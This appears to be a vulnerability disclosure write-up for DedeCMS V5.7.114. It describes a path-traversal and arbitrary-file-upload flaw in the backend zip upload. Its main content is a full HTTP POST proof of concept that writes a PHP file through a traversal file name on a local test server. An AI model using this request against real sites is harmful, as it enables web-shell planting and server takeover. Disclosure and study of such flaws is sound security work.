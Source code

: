 # Dedecms Path traversal+arbitrary file upload

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708130926507.png)

​	E: \ seebug \ php study_p is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path

![image-20240708113031935](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708113031935.png)

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240712135020653.png)	The vulnerability mainly appears at the compressed file upload location

![image-20240712135159882](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240712135159882.png)

```http
POST /include/dialog/select_soft_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 752
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGneeoYoNcoA3cyfK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_soft.php?f=form1.zipfile
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=ef87ce85f5d16c9875d2c6089936835b; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=c1e0489e3c20f4bf; last_vtime=1720421835; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=070401ac415b7cb7; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=501af9a85db1a161; OrdersId=9448BQQIAFJRAgIFAQIIXQINU1cPAAFRVAIGAwY2FGYEVQAFAAoGVlAAYHsGBgY; ENV_GOBACK_URL=%2Fmember%2Fcontent_list.php%3Fchannelid%3D6; DedeLoginTime=1720426605; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=629ca267a38c9755; Shop_De_85=626cVlNVBgkHU1FVU1QBAAFTDwVTCVJXUgkDUlNbAV8OB0QWEQxVXApTRxANCxBFCkVVRxpfRFtcARdACkYJBwsXJ1VGXQYcDyJEIFtHJXMSIXYXJgkUdycVcHBGd1ZHDgJHXiFAcw0SISBAWyE; Shop_De_78=b741AwUHVAQBCAIBUlIFVwhVWg8GXwMEAAVaClRQAgUCARBDR14HUQwNAhcXWFkVQgxHc1NDCXETdyAUBkwfVkBUCwITQw1AXV0PFCcFFVkBFFp3QCMFF3dyRgsiHCMNEHhyFgwHQXECHQoBRw5y
Connection: close

------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="activepath"

/uploads/soft
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="f"

form1.zipfile
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="uploadfile"; filename="try.zip"
Content-Type: application/x-zip-compressed

<?php echo 123;?>
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="newname"

..\/inde1x.Php
------WebKitFormBoundaryGneeoYoNcoA3cyfK
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundaryGneeoYoNcoA3cyfK--
```

​	Activepath did not perform sufficient filtering here, resulting in path traversal that can be achieved by controlling the Activepath parameter to upload ZIP compressed files at any location

![image-20240708171125047](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitOne.assets\image-20240708171125047.png)